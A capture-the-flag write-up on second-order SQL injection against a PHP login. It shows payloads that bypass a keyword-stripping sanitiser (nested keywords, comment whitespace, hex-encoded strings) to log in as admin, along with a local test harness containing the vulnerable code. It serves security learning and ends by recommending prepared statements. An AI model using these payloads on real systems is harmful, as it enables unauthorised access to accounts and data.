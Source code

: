 2step
==============

Overview
--------
Again a server side rendered web application presented itself, just like in obxssession, but this time it only presented a login page and nothing else. If a user manages to log in with a correct email and password combination s/he would be presented with a welcome message and if that mail was `admin@root` the flag will be shown as well.

Vulnerability
-------------
During the login process this application executes two SQL queries where the first one is build by plain string concatenation and the second one is a prepared statement where the first parameter is set in the SQL string before the statement is prepared in order to set the second parameter. This first parameter is the mail column returned by the first query so one might think it is not possible to inject a malicious string since it comes from the database. But since the first query is only protected in an insecure way we can inject almost anything we want into the second one.

Exploitation
------------
To be honest with this one I was stepping in the dark for quiet a while. It didn't take me long to figure out how I can bypass the sanitiser but it took me what felt like ages to figure out what to do with this. My early discoveries where that the closing quote can be realised like that `\'`, white space can be replaced with a comment `/**/` and the replaced words can be protected by placing a word of same language inside it, eg. `UNorION -> UNION`. Then I tried a bunch of random injections to see what I could do but none of them manipulated the mail column in the result. Only after stepping through the code in my mind in reverse starting from the point where the flag gets accessed I realised that with a clever unioned query I can write into the resulting row. The next obstacle was inserting an opening and closing quote in the middle of my payload, the technique from before didn't work because the `\\` in the middle of a query would cause a syntax error. It occurred to me that I might be able to replace the quote character with its ASCII value in hexadecimal but that was not enough so I encoded the whole string in its hex value which got me the flag.  

During the process I set up a local MySql database and modified the source code of the application a little to validate my trial, error and assumptions. Please don't judge me based on this ugly little thing here ...  

    <?php
    # seems like ther are 204 users

    # $in_mail = "\'/**/OorR/**/1=1/**/LIorMIT/**/1#";
    # $in_mail = "\'/**/UNorION/**/SEorLECT/**/password/**/FRorOM/**/USorERS/**/WHorERE/**/id=1#";
    # $in_mail = "\'/**/UNorION/**/SEorLECT/**/passwoorrd,passwoorrd,passwoorrd/**/FRorOM/**/users/**/WHorERE/**/id=1#";
    # $in_mail = "\'/**/UNorION/**/SEorLECT/**/0,0,0#";
    $in_mail = "\'/**/UNorION/**/SEorLECT/**/0,0x27204f52206d61696c203d202761646d696e40726f6f74272327,0#";
    # ' OR mail = 'admin@root'#

    $in_password = "foobar";
    /* $password = "unguessable"; */

    function graceful_death($message) {
        echo $message."\n";
        exit(1);
    }

    function sanitize($str) {
        if(preg_match('/["\s;\-\|&\(\)]/i', $str) !== 0) {
            graceful_death("Malicious characters detected");
        }
            $out = preg_replace('/union|select|where|and|or|concat|from/i', '', $str);
        $out = preg_replace("/'/", "\\'", $out);
        return $out;
    }

    function sql_execute($conn, $sql) {
        try {
            $sth = $conn->query($sql);
        } catch(PDOException $e) {
            echo $e->getTraceAsString()."\n\n";
            graceful_death($e->getMessage());
        }
        $result = $sth->fetchAll();
        return $result;
    }

    try {
        $dbh = new PDO("mysql:host=".$argv[1].";dbname=".$argv[2],
                       $argv[3], $argv[4]);
        $dbh->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
        $dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, 0);
    } catch(PDOException $e) {
        echo "could not connect to database: " . $e->getMessage();
    }

    $mail = sanitize($in_mail);
    echo "\n".$mail."\n\n";

    $password = sanitize($in_password);
    /* $sql = "SELECT * FROM users WHERE mail = '$in_mail'"; */
    $sql = "SELECT * FROM users WHERE mail = '$mail'";
    echo $sql."\n\n";

    $usrs = sql_execute($dbh, $sql);
    echo var_dump($usrs);

    if(count($usrs) < 1) {
        graceful_death("Mail not found");
    } elseif(count($usrs) > 1) {
        graceful_death("Multiple users returned");
    } else {
        $sql = "SELECT mail FROM users WHERE mail = '" . $usrs[0]['mail'] . "' AND password = :password";
        echo "\n".$sql."\n\n";
        $sth = $dbh->prepare($sql);
        if(!$sth) graceful_death("empty");
        $sth->bindValue(':password', $password);
        echo "\n".var_dump($sth)."\n\n";
        $result = $sth->execute();
        if(false === $result) graceful_death();
        $result = $sth->fetchAll();
        echo "\n".var_dump($result)."\n";
        if(count($result) === 1) {
            graceful_death("Logged in");
        } else {
            graceful_death("Wrong password");
        }
    }
    ?>

Solution
--------
Don't try to sanitize user input which forms part of a SQL query, it's next to impossible to catch all the forms of malicious input. Use prepared statement instead! ... and use them everywhere, not just where you expect user input.

